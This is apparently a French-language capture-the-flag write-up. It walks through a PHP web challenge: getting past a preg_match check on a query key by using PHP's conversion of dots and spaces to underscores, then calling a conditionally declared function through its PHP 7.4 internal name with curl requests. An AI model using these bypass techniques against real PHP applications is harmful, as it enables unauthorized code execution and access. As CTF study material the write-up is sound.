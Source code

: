 # Solution

## Exploration
On se retrouve sur un serveur privé Habbo (HabboNight) qui semble être en maintenance.  
En regardant les sources de la page, un commentaire est présent:
```html
<!-- <a href="?source">View source</a> -->
```

Celui-ci nous donne accès au code PHP suivant:
```php
<?php
require_once 'flag.php';

/*

                         ______                     
 _________        .---"""      """---.              
:______.-':      :  .--------------.  :             
| ______  |      | :                : |             
|:______B:|      | |  $> php -v     | |             
|         |      | |  PHP 7.4       | |         
|         |      | |                | |         
|:_____:  |      | |  $> pwd        | |  
|    ==   |      | |  /var/www/html | |                 
|    ==   |      | :                : |             
|       O |      :  '--------------'  :             
|       o |      :'---...______...---'              
|       o |-._.-i___/'             \._              
|'-.____o_|   '-.   '-...______...-'  `-._          
:_________:      `.____________________   `-.___.-. 
                 .'.Q W E R T Y U I O P.'.     :___:
    fsc        .'.   A S D F G H J K L  .'.         
              :_______Z X C V B N M ,______:

*/

// View source
if(isset($_GET["source"])){
    highlight_file(__FILE__);
    die();
}

// Get params
$i_am_part_of_the_staff = $_GET["i_am_part_of_the_staff"] ?? "nop";
$staff_password = hash("sha256", trim($_GET["staff_password"] ?? ""));


// Die if not allowed
if(preg_match('/i_am_part_of_the_staff/i', $_SERVER['QUERY_STRING'])){
    die("Not allowed.");
}

function nop(){}

if($staff_password === "i_4m_a_v4l1d_sha256_ha5h_:D"){
    function staff_door(){
        echo "<script>alert('".flag."')</script>";
    }
}

if(isset($_GET["i_am_part_of_the_staff"])){
    $i_am_part_of_the_staff();
}

?>
```

A première vue, le site utilise `PHP 7.4`, et le webroot se trouve dans `/var/www/html`.  
Le script récupère deux paramètres: `$_GET["i_am_part_of_the_staff"]` et le sha256 de`$_GET["staff_password"]`.  
Ensuite, une condition vérifie si dans l'URL est présent la chaîne `i_am_part_of_the_staff`: si oui, le script se termine avec un message d'erreur.
Le sha256 du mot de passe envoyé va être vérifié avec un hash impossible à avoir: `i_4m_a_v4l1d_sha256_ha5h_:D`. Si le mot de passe est valide, une fonction est créée, ayant pour utilité d'afficher le flag. C'est notre finalité, nous y reviendrons après.
Enfin, si `$_GET["i_am_part_of_the_staff"]` est présent, le script exécute la fonction donnée.

## Bypass preg_match('/i_am_part_of_the_staff/i',...)
En PHP, certains caractères des clés dans $_REQUEST sont remplacés par des underscore (\_) selon [ce commentaire sur le site officiel de PHP](https://www.php.net/manual/en/language.variables.external.php#81080).  
Cela veut donc dire que `$_GET["i_am_part_of_the_staff"]` peut-être rempli avec le paramètre `i.am.part.of.the.staff` ou bien `i%20am%20part%20of%20the%20staff`.  
On peut afficher `phpinfo()` avec la requête suivante:
```bash
curl 'http://__URL__/?i.am.part.of.the.staff=phpinfo'
```

## Call `staff_door` function
En octobre 2023, @phithon_xg sort [ce tweet](https://x.com/phithon_xg/status/1711414421283831811). 
Il sort donc un [blogpost pour expliquer le processus de compilation dans php 7.4](https://www.leavesongs.com/PENETRATION/php-challenge-2023-oct.html).  
Pour la faire courte, on peut appeler arbitrairement une fonction via le nom temporaire qui lui ait attribué sous la forme:
```php
%00<function_name><file_path>:<start_func_line_number>$<key>
```

Nous possédons tout, sauf <key>, que l'on va pouvoir "bruteforcer".  
```
<function_name>          = staff_door
<file_path>              = /var/www/html/index.php
<start_func_line_number> = 47
<key>                    = 0 à ??? (s'incrémente à chaque appel de la fonction)
```


En testant la requête suivante, le flag apparait avec une popup `alert`:
```bash
curl 'http://__URL__/?i.am.part.of.the.staff=%00staff_door/var/www/html/index.php:47$0'
```